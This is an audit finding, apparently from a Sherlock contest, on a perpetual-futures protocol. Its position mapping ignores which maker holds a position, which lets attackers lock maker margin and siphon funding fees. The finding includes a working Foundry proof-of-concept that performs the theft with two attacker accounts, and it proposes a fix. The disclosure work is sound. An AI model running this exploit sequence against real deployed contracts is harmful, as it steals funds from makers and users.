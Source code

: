 Quick Lavender Duck

high

# Attackers can lock market funds, prevent normal execution of transactions, and steal funds in the maker

## Summary
Attackers can lock market funds, prevent normal execution of transactions, disrupt `fundingFee` and `borrowingFee`, and steal funds from maker
## Vulnerability Detail
User information positions are obtained and saved in the following way. The data mapping only distinguishes `marketId`. If the same `marketId` involves multiple makers, the system cannot correctly process the taker's and maker's position data.
The attacker creates a position with maker1 in the same `marketId`, then proceeds to create an equal and opposite position with maker2. Due to the data storage method, the attacker's `positionSize` and `openNotional` will be reset to zero, while the position data for maker1 and maker2 still exists. After the attacker occupies all of the maker's margin, other users can only create positions opposite to the attacker in the corresponding maker. If a `FundingFee` configuration is in place, the attacker can steal funds.
https://github.com/sherlock-audit/2024-02-perpetual/blob/main/perp-contract-v3/src/vault/PositionModelUpgradeable.sol#L112-L118
```js
    function _getPositionSize(uint256 marketId, address trader) internal view virtual returns (int256) {
        return _getPositionModelStorage().stateMap[marketId].positionMap[trader].positionSize;
    }

    function _getOpenNotional(uint256 marketId, address trader) internal view virtual returns (int256) {
        return _getPositionModelStorage().stateMap[marketId].positionMap[trader].openNotional;
    }
```
https://github.com/sherlock-audit/2024-02-perpetual/blob/main/perp-contract-v3/src/vault/PositionModelUpgradeable.sol#L22-L25
```js
    struct PositionModelStorage {
        // key: marketId
        mapping(uint256 => PositionModelState) stateMap;
    }
```
https://github.com/sherlock-audit/2024-02-perpetual/blob/main/perp-contract-v3/src/vault/PositionModelStruct.sol#L4-L9
```js
struct PositionModelState {
    uint256 pnlPoolBalance;
    uint256 badDebt;
    // key: trader address => position
    mapping(address => Position) positionMap;
}
```
https://github.com/sherlock-audit/2024-02-perpetual/blob/main/perp-contract-v3/src/vault/PositionModelStruct.sol#L12-L16
```js
struct Position {
    uint256 margin;
    int256 positionSize;
    int256 openNotional;
    int256 unsettledPnl;
}
```

### Poc
attacker steals `fundingFee`
```js
    // please add to FundingFee.int.t.sol and test
    function test_AttackerWithTwoMakersGetFundingFee() public {
        // Lower FundingRate for testing
        config.setFundingConfig(marketId, 0.00005e18, 1.3e18, address(maker));
        // init attacker
        address attackerOne = makeAddr("attackerOne");
        address attackerTwo = makeAddr("attackerTwo");
        _deposit(marketId, attackerOne, 5000e6);
        _deposit(marketId, attackerTwo, 5000e6);

        // Caching attacker account vaule
        int256 attackerOneStartAccountVaule = vault.getAccountValue(marketId, attackerOne, 100e18);
        int256 attackerTwoStartAccountVaule = vault.getAccountValue(marketId, attackerTwo, 100e18);
        // attackerOne long 500 eth on maker1
        vm.prank(attackerOne);
        clearingHouse.openPosition(
            IClearingHouse.OpenPositionParams({
                marketId: marketId,
                maker: address(maker),
                isBaseToQuote: false,
                isExactInput: false,
                amount: 500 ether,
                oppositeAmountBound: 50000 ether,
                deadline: block.timestamp,
                makerData: ""
            })
        );
        // attackerOne short 500 eth on maker2
        vm.prank(attackerOne);
        clearingHouse.openPosition(
            IClearingHouse.OpenPositionParams({
                marketId: marketId,
                maker: address(maker2),
                isBaseToQuote: true,
                isExactInput: true,
                amount: 500 ether,
                oppositeAmountBound: 50000 ether,
                deadline: block.timestamp,
                makerData: ""
            })
        );
        // attackerOne don't have open position
        _assertEq(
            _getPosition(marketId, address(attackerOne)),
            PositionProfile({ margin: 5000e18, positionSize: 0, openNotional: 0, unsettledPnl: 0 })
        );
        // attackerTwo short 500 eth on maker2
        vm.prank(attackerTwo);
        clearingHouse.openPosition(
            IClearingHouse.OpenPositionParams({
                marketId: marketId,
                maker: address(maker2),
                isBaseToQuote: true,
                isExactInput: true,
                amount: 500 ether,
                oppositeAmountBound: 50000 ether,
                deadline: block.timestamp,
                makerData: ""
            })
        );
        skip(15);
        vm.prank(attackerTwo);
        clearingHouse.closePosition(
            IClearingHouse.ClosePositionParams({
                marketId: marketId,
                maker: address(maker),
                oppositeAmountBound: 50000 ether,
                deadline: block.timestamp,
                makerData: ""
            })
        );

        int256 attackerOneEndAccountVaule = vault.getAccountValue(marketId, attackerOne, 100e18);
        int256 attackerTwoEndAccountVaule = vault.getAccountValue(marketId, attackerTwo, 100e18);
        assertEq(attackerOneStartAccountVaule, attackerOneEndAccountVaule);
        assertEq(attackerTwoEndAccountVaule - attackerTwoStartAccountVaule, 4816.064263904166e18);
    }
// [PASS] test_AttackerWithTwoMakersGetFundingFee() (gas: 2641300)
```
## Impact
Attackers can lock market funds, prevent normal execution of transactions, disrupt `fundingFee` and `borrowingFee`, and steal funds from maker
## Code Snippet
https://github.com/sherlock-audit/2024-02-perpetual/blob/main/perp-contract-v3/src/vault/PositionModelUpgradeable.sol#L112-L118
https://github.com/sherlock-audit/2024-02-perpetual/blob/main/perp-contract-v3/src/vault/PositionModelUpgradeable.sol#L22-L25
https://github.com/sherlock-audit/2024-02-perpetual/blob/main/perp-contract-v3/src/vault/PositionModelStruct.sol#L4-L9
https://github.com/sherlock-audit/2024-02-perpetual/blob/main/perp-contract-v3/src/vault/PositionModelStruct.sol#L12-L16
## Tool used

Manual Review

## Recommendation
We can add the corresponding maker mapping under `mapping(uint256 => PositionModelState) stateMap` to distinguish,and when the transaction is executed, check the status of the trader in the remaining makers and process it